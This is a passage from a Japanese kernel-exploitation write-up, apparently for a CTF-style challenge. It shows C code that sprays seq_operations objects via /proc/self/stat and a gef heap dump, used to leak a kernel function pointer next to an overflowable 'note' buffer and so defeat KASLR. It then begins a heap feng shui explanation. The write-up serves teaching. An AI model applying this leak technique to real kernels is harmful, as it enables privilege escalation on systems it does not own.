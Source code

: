 その中には4つの関数ポインタが入っています。
サイズは`0x20`なので、(今回のkernelでは)`kmalloc-32`に格納されることになります。

よって、この`seq_operations`を`note`の真隣に確保してあげればoverflowを利用して
`seq_operations.start`に格納されている`single_start()`のアドレスをleakすることができます。

### kbase leak

さて、ここまでで背景の説明が終わったので早速leakをしましょう。
今`freelist`は`note`の直後を指しているので、この時点で`seq_operations`を確保すれば
`note`に隣接することになります:

```c
#define INIT_SPRAY_SEQOPS_N 0x20
  puts("[+] Spraying seq_operations...");
  int seq_fds[INIT_SPRAY_SEQOPS_N];
  for (int i = 0; i < INIT_SPRAY_SEQOPS_N; ++i) {
    if ((seq_fds[i] = open("/proc/self/stat", O_RDONLY)) < 0) {
      perror("[-] open(seq_ops)");
      exit(EXIT_FAILURE);
    }
  }
```

この時点でheapは以下のようになります:

```sh
gef> x/50gx 0xffff8880032e4340
## NOTE 1
0xffff8880032e4340:     0x0000000000000020      0x4141414141414141
0xffff8880032e4350:     0x4141414141414141      0x4141414141414141
## NOTE 2
0xffff8880032e4360:     0x0000000000000020      0x4141414141414141
0xffff8880032e4370:     0x4141414141414141      0x4141414141414141
## seq_operations
0xffff8880032e4380:     0xffffffff811742b0      0xffffffff811742d0
0xffff8880032e4390:     0xffffffff811742c0      0xffffffff811bef60
```

確かに隣接しています。
このとき、`0xffff8880032e4380`に入っている値を`NOTE 2`の`read`を使ってleakすることができます。
これでkbaseのleak完了です。

### heap feng shui

少し小話です。
exploitで最初に`note`を確保する時、1つだけではなく大量に確保しました。
これはなぜでしょうか。

`note`を確保する前にheapが下図の左の状態だったとします。
free領域が飛び飛びな状態です:

![feng1](img/feng1.png)
